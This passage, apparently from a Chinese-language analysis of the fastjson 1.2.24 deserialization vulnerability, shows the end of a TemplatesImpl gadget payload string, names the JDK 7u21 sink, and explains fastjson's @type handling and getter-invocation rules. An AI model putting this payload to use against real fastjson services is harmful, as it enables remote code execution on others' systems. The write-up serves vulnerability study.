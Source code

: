 ```java
      "'_name':'necessary'," + //在读取字节码前会有一个判断，不为空即可
      "'_tfactory':{}," + //某些jdk版本如果没有设置会报错
      "\"_outputProperties\":{}}\n"; //触发getOutputProperties方法
}
```

利用点用的是上面提到的jdk7u21：

`jdk1.7.0_21.jdk/Contents/Home/src.zip!/com/sun/org/apache/xalan/internal/xsltc/trax/TemplatesImpl.java`的`defineTransletClasses`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190927144940.png)

在分析调用链之前，首先需要了解fastjson的一些特性。

```java
Person person = new Person();
person.name = "blue";
person.length = 18;

String s = JSONObject.toJSONString(person);
String s1 = JSONObject.toJSONString(person, SerializerFeature.WriteClassName);

System.out.println(s);
System.out.println(s1);

Object parse = JSON.parse(s);
Object parse1 = JSON.parse(s1);

System.out.println("type:"+ parse.getClass().getName() +" "+parse);
System.out.println("type:"+ parse1.getClass().getName() +" "+parse1);

//output
/*
{"length":18,"name":"blue"}
{"@type":"simple.Person","length":18,"name":"blue"}
type:com.alibaba.fastjson.JSONObject {"name":"blue","length":18}
type:simple.Person Person{name='blue', length=18}
*/
```

可以看到如果在序列化的时候设置了`SerializerFeature.WriteClassName`，得到的json字符串会有一个`@type`属性，用于指定反序列化的类。

同时fastjson在解析json时，会调用对应类的无参构造函数、setter、getter，并且调用getter是有一定条件的：

`fastjson-1.2.24-sources.jar!/com/alibaba/fastjson/util/JavaBeanInfo.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191022183903.png)

- 只有`getter`没有`setter`
- 函数名称大于等于4
- 非静态函数
- 函数名称以get起始，且第四个字符为大写字母
- 函数没有入参
- 继承自Collection || Map || AtomicBoolean || AtomicInteger || AtomicLong
